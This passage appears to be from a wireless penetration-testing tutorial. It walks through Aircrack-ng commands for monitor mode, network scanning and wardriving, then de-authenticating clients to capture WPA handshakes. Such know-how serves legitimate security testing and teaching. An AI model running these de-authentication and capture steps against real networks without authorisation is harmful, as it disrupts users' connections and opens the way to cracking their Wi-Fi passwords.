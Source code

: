 Prerequisites:
- Compatible wireless adapter with monitor mode support (e.g., Alfa AWUS036ACH)
- Kali Linux or Parrot OS with Aircrack-ng suite installed

```bash
# Check for wireless interfaces
iw dev

# Kill processes that might interfere with monitor mode
sudo airmon-ng check kill

# Start monitor mode
sudo airmon-ng start wlan0

# Verify monitor mode is enabled
iw dev
```

The resulting monitor interface (typically `wlan0mon`) can now capture wireless traffic without being associated with any network.

### Discovering Networks with Airodump-ng

```bash
# Scan all channels for networks
sudo airodump-ng wlan0mon

# Focus on a specific network (channel 6, BSSID 00:11:22:33:44:55)
sudo airodump-ng -c 6 --bssid 00:11:22:33:44:55 -w capture_file wlan0mon
```

**Advanced Airodump-ng Options:**

```bash
# Scan 5GHz channels only
sudo airodump-ng --band a wlan0mon

# Filter for WEP networks only
sudo airodump-ng --encrypt WEP wlan0mon

# GPS logging for wardriving
sudo airodump-ng --gpsd wlan0mon

# Filter by ESSID (network name)
sudo airodump-ng --essid "TargetNetwork" wlan0mon
```

![Airodump-ng output example](./images/airodump_output.png)
*Figure 15.2: Sample Airodump-ng output showing discovered networks and client information*

### Client De-authentication for Handshake Capture

```bash
# Global de-authentication (all clients on the network)
sudo aireplay-ng -0 10 -a 00:11:22:33:44:55 wlan0mon

# Targeted de-authentication (specific client only)
sudo aireplay-ng -0 10 -a 00:11:22:33:44:55 -c AA:BB:CC:DD:EE:FF wlan0mon
```
